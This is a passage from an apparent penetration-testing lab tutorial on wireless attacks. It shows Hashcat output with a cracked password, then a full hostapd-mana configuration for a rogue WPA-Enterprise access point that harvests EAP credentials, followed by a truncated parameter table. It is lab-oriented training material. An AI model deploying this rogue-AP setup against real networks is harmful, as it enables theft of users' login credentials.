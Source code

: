 Candidate.Engine.: Device Generator
Candidates.#1....: 123456789 -&gt; manchester
Hardware.Mon.#1..: Util: 50%
</code></pre>
<div class="alert alert-primary fade show" role="alert">
<i class="mdi mdi-information-outline mr-2"></i> If <b>Hashcat</b> does not work within the provided attacker VM, it is recommended to use <b>Pwnbox</b> or your <b>local VM</b> to run Hashcat.
</div>
<hr/>
<h3>MANA attack on Enterprise Networks</h3>
<p>We can extend the MANA attack to target clients probing for enterprise networks. Since we cannot determine the exact authentication method the clients are probing for, a trial-and-error approach is necessary. Previously, we targeted WPA networks, where only one client connected. This suggests the second client might be using WPA Enterprise.</p>
<p>To configure the rogue access point for WPA Enterprise, we use the following configuration:</p>
<pre><code class="language-config"># 802.11 Options
interface=wlan1
ssid=Anything
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=/opt/hostapd-mana/hostapd.eap_user

# Certificates
ca_cert=/opt/hostapd-mana/ca.pem
server_cert=/opt/hostapd-mana/server.pem
private_key=/opt/hostapd-mana/server.key
private_key_passwd=whatever
dh_file=/opt/hostapd-mana/dh

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1
</code></pre>
<p>In this file, we specify many parameters. These parameters can be broken down like the following:</p>
<table>
<thead>
<tr>
<th>Item</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>Interface</code></td>
<td>The interface on which we will be hosting the access point.</td>
</tr>
<tr>
<td><code>SSID</code></td>
